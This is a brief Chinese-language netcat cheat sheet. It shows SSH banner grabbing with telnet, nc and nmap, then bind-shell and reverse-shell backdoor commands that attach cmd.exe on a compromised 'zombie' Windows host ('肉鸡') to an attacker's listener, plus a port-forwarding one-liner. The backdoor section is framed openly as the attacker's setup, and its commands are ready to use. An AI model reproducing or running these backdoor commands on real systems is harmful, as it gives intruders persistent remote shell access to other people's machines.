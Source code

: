 
    ```
    ➜  ~ telnet 10.1.1.1 22
    Trying 10.1.1.1...
    Connected to 10.1.1.1.
    Escape character is '^]'.
    SSH-2.0-OpenSSH_7.6p1 Ubuntu-4ubuntu0.3
    quit
    Connection closed by foreign host.

    ➜  ~ nc 10.1.1.1 22
    SSH-2.0-OpenSSH_7.6p1 Ubuntu-4ubuntu0.3

    nmap -A 10.1.1.1 -p22
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)

    ```


### 建立后门

    ```监听型后门

    肉鸡(windows)
    nc -l -p [port] -e cmd.exe

    黑客(linux)
    nc [server_ip] [port] 

    
    肉鸡做server端

    黑客去连接肉鸡

    ```

    ```连接型后门

    服务器(linux)
    nc -l -p 4000


    肉鸡(windows)
    nc [server_ip] [server_port] -e cmd.exe
    

    肉鸡做客户端，
    黑客做服务器端

    ```


### 端口转发

    ```???
    nc -l -p 9999 | nc baidu.com 80 | nc -l -p 9999
    ```


